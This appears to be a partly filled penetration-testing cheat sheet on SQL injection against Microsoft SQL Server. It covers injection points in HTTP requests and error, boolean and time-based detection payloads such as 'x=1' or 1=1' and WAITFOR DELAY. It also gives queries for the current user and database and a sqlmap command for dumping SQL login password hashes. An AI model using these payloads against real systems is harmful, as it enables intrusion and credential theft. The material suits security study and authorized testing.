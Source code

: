 # Web Application - SQL Injection - MSSQL

Microsoft SQL Server is a relational database management system developed by
Microsoft.  
Microsoft markets a dozen different editions of Microsoft SQL Server with
various functionalities and aims. A list of the versions is available :
https://support.microsoft.com/en-us/help/321185/how-to-determine-the-version-edition-and-update-level-of-sql-server-an

**MSSQL supports stacked queries.**

### Vulnerable parameters detection

###### Injection locations

In a HTTP request there are a few possible injection points :
 - URL parameters
 - POST parameters
 - Cookie names and values
 - Host header and any custom headers

Note that while the entry points above are the most common, any content in an
HTTP request can be prone to SQL injection.

###### Injection detection

Detecting vulnerable parameters is most easily done by triggering errors and
boolean logic within the application.  
Supplying malformed queries will trigger errors and sending valid queries with
various boolean logic statements may trigger different responses from the web
server.  
Time based payload can also be used to detect SQL injection in MSSQL.  

| Technique      | Queries   |
|----------------|-----------|
| Error <br /> *A direct message can be returned or the page may act differently*    | `x='` <br/> `x=''` <br/> `x="` <br/> `x=""` <br/> `x=\` <br/> `x=\\` <br/> `x=\'` <br/> `...`  |
| Boolean Testing <br /> *Page can react differently if true or false* | `x=1 or 1=1 -- true` <br /> `x=1' or 1=1 -- true` <br/> `x=1" or 1=1 -- true` <br/> `x=1 or 1=2 -- false`  <br/> `...` |
| Time Based <br /> *A delay can be induced by the query execution* | `x=1 WAITFOR DELAY '0:0:5' -- Wait 5 seconds` <br /> `x=1; WAITFOR DELAY '0:0:5' -- Wait 5 seconds` <br />  `x=1 WAITFOR TIME '22:42' -- Wait until 22:42` <br /> `...` |

###### Automated detection

The detection of vulnerable parameters can be automated, using the `BurpSuite
Pro scanner` or `sqlmap` for example.

Note that second order SQL injection, which arises when user-supplied data is
first stored by the application and then later incorporated into SQL queries
in an unsafe manners, may not be properly detected by automatic tools.  

### Databases dumping

| Description | Queries |
|-------------|---------|
| Comments | |
| Encoding queries | |
| Obfuscating queries | |
| Disable logging mechanisms | |
| MSSQL version | |
| Current user | `SELECT (CAST(SYSTEM_USER AS NVARCHAR(4000)))` |
| Users and privileges | |
| Users' passwords | Using `sqlmap`: <br> `sqlmap -D master -T sys.sql_logins --dump [...]` |
| Databases | |
| Current database | `SELECT (CAST(DB_NAME() AS NVARCHAR(4000)))` |
| Tables | |
| Columns | |
| Data | |

--------------------------------------------------------------------------------

### References

https://www.gracefulsecurity.com/sql-injection-cheat-sheet-mssql/
https://www.asafety.fr/mssql-injection-cheat-sheet
http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet
